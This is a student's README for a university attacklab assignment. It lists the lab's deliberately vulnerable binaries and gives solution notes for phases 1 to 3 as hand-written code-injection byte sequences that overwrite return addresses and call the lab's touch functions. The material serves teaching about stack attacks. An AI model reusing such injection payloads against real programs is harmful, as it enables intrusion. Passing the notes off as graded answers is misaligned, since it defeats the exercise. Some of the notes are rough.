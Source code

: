 This file contains materials for one instance of the attacklab.

Files:

    ctarget

Linux binary with code-injection vulnerability.  To be used for phases
1-3 of the assignment.

    rtarget

Linux binary with return-oriented programming vulnerability.  To be
used for phases 4-5 of the assignment.

     cookie.txt

Text file containing 4-byte signature required for this lab instance.

     farm.c

Source code for gadget farm present in this instance of rtarget.  You
can compile (use flag -Og) and disassemble it to look for gadgets.

     hex2raw

Utility program to generate byte sequences.  See documentation in lab
handout.

# note
- generate raw: `./hex2raw < ctarget.inp > raw1.inp`
- debug that raw in gdb: `r < raw1.inp`

# Solution
### Phase 1:
- filling 0x18 bytes to override the return address of stack, add a few padding

### Phase 2:

48 83 ec 08 // sub $0x8,%rsp
48 c7 44 24 00 02 17 40 00  // movq   $0x00401702,0x0(%rsp)
c3// ret
00 00 00 00 00 // padding
88 74 61 55 // address of first ins below



ret -> to next first of instruction in the stack as string
88 74 61 55 // address of first ins below

mov $50fa73aa, $rdi
bf aa 73 fa 50 // bf = set value to rdi

rsp grow down to put phase two as the old position
48 83 ec 08 // sub $0x8,%rsp

put phase address to stack
02 17 40 00
48 c7 44 24 00 02 17 40 00 
48 c7 44 24 08 20 45 60 00	movq   $0x604520,0x8(%rsp)

ret
c3

#### optimization
this phase can be shorter by override ret for stack, don't need sub rsp those stuff, google for better Solution

### Phase 3:
48 c7 c7 b0 74 61 55 // set address of string to rdi
c3 // ret
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
88 74 61 55 00 00 00 00 // first ret (first rsp), jump to above ins
d6 17 40 00 00 00 00 00 // second ret (2nd rsp), jump to touch3
35 30 66 61 37 33 61 61 // string value of cookie
00